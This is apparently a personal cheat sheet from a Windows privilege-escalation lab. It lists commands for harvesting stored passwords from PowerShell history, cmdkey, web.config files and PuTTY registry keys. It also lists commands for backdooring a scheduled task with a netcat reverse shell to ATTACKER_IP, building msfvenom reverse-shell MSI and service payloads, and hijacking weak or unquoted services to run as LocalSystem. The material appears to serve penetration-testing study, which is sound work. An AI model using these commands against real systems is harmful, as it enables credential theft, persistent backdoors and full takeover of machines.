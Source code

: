 ### Harvesting Password
  #### Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
  #### Scheduled Tasks
    schtasks
    schtasks /query /tn vulntask /fo list /v //to view a particular task

    icacls c:\tasks\xxx  //to view the privi, F is full access

    //if yes we can modify it as a backdoor,
    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    schtasks /run /tn vulntask  //run immediately
  
  #### AlwaysInstallElevated  
    msi files can be configured to run with higher privileges from any user account (even unprivileged ones)
      //enable below 2 values
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    //msf create revershell msi, should also run the Metasploit Handler module configured accordingly
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

     msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  #### win service - insecure permission on sercie executable -- msf requied for creating a reverse shell file 
    sc qc xxx // to check info of a particular service, we'll have the binary file path, the executed accountname.
    icacls Path:\xxx  //check the privi of this binary file of this serviice

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe //create shell file and transfer to the host
    move C:\Users\thm-unpriv\rev-svc.exe WService.exe  //raap[lace the binary file
    icacls WService.exe /grant Everyone:F  // grant full privi 
    nc -nvlp xxxx 

    sc stop xxxservice
    sc start xxxservice  //restart this service to trigger shell // PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

  #### win service - Unquoted Service Paths - msf requied for creating a reverse shell file 
    sc qc "disk sorter enterprise"  
      DISPLAY_NAME       : Disk Sorter Enterprise  //spaces on the name of the "Disk Sorter Enterprise" folder
      //SCM doesn't know which of the following you are trying to execute:C:\MyPrograms\Disk.exe plus  Argument1:Sorter plus Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter.exe  plus  Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
    we put the revershell file on C:\\MyPrograms\\Disk.exe // we must have write privi to this path
     //most of the service executables will be installed under C:\Program Files or C:\Program Files (x86)
    //restart the service and get shell

   #### win service - Insecure Service Permissions -  msf requied for creating a reverse shell file 
     //check for a service DACL from the command line, you can use Accesschk.exe
       [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users  //SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
     accesschk64.exe -qlc xxx
     //generate reversehll file , grant privi,modify config of service 
     sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem  // localsystem is high privi of a local host.
     
    
    
